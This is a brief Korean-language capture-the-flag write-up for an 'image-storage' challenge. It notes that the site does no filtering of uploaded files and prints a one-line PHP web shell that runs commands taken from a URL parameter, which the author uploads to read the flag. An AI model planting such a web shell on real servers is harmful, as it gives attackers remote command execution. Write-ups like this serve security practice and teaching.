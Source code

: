 # image-storage

소스코드를 보니 업로드 되는 파일에 필터링이 없어서 바로 간단한 웹 쉘을 업로드 해보았다.   

### web shell
```
<?php
echo shell_exec($_GET['cmd']);
?>
```   
<br/>

![image1](1.PNG)   

성공적으로 업로드가 되어서 쉽게 flag를 확인할 수 있었다.
